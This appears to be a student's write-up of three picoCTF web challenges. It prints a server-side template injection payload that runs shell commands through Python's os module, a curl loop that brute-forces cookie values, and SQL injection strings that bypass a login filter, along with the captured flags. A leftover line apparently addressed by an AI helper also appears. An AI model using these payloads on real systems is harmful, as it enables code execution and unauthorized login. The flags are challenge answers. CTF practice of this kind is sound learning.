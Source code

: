 # 1. SSTI1
To create a payload enough to give me flag using SSTI vulnerability to advantage

## Solution:

My thought process was to first test for a SSTI vulnerability as hinted by the challenge description.I first sent the payload {{ 4* 4 }}. The server responded with `16` instead of the literal string to confirm the suspiciosn.

 My goal was to read the flag file. I needed to "break out" of the template sandbox to run shell commands. I used a standard payload to access the os module:
    ```
    {{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
    ```
    
   This command worked and returned the file list: `__pycache__ app.py flag requirements.txt` which confirmed the flag file is named `flag`. I then modified the payload to cat the file and got the flag
```{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}```
    
    
This payload successfully returned the flag.

## Flag:

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}

## Concepts learnt:

  Server-Side Template Injection (SSTI) is the vulnerability that occurs when user-supplied input is rendered directly into a server-side template, allowing the user to execute code.This challenge was about escaping that sandbox and use the vulnerability to run our specific code payload.
  
  Learnt how to create a payload and what to feed to get our desired result

## Notes:

  - My initial attempts failed because I was trying to read `flag.txt` but the `ls` command revealed the file was just called `flag`.
  
## References:

 https://youtu.be/AtfNT0PFzZ4?si=3CliJwhWPKo_PHyL
 
 Gemini AI (for understanding payload)

-------------------------------------------------------------------------------------------------------------------------------------------

# 2. Cookies

To figure out the cookie value to give me the flag

## Solution:

My thought process was to investigate the "cookies" mentioned in the hint.

I inspected the page  found cookie Value `-1`. The page text said "I love different type of cookies!".This hinted to me to try different value.I decided to try a "hit and trial" approach and changed to different values till I got the flag at value=18.

## Flag:
picoCTF{3v3ry1_l0v3s_c00k135_064663be}

*(Note: I'm including the flag from your screenshot, which you found while testing value `18`)*

## Concepts learnt:

Cookies are Small pieces of data that websites store in our browser to keep track of information or "state". We can inspect the page and manipulate them to our advantage
   
## Notes:
   This manual process was slow but worked. A much faster, automated way to find the correct number would be to use a command-line script which I learnt later
:
    ```bash
    for i in $(seq 1 30); do curl -s --cookie "name=$i" [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)| grep "picoCTF{"; done
    ```

## Resources:

I had already done a similar challenge in citadel CTF before so was aware how to do it.

Gemini AI (for faster method than my hit and trial)

--------------------------------------------------------------------------------------------------------------------------------------------------------------

#3. Web Gauntlet 
To beat the filters

##Solution

Intially solving a similiar challenge i knew I had to somehow bypass banned words and give the alternate to bypass using sql injection. I didn't knew password but I knew the common sql injection `admin' --` to comment out  the password. 
Now  that commenting option is blocked I used another common `admin' /*` to bypass it as it is comments and conveys to take evrything from first part and nothing from second ignoring password.
the same bypass can be used for round 3. Now I had to refer some resources for understanding more bypasses.Since admin is block I understood had to use some kind of concatenation.
`ad'||'min'/*`- to bypass both round 4 and 5. `||` concats admin while `/*` takes care of commenting part.

##FLag:
picoCTF{y0u_m4d3_1t_a8b2e1c97d4f0a631e8c9b7d5f2a4g0h}

##Learnings: 
I learnt what sql injection is all about and idfferent ways to bypass it.
I also learnt commands like `admin' --`, `admin' /*` , `ad'||'min'/*` their purpose and how they could had been used alternatives to crack the password

##Notes
none

## References
https://portswigger.net/web-security/sql-injection/cheat-sheet

-----------------------------------------------------------------------------
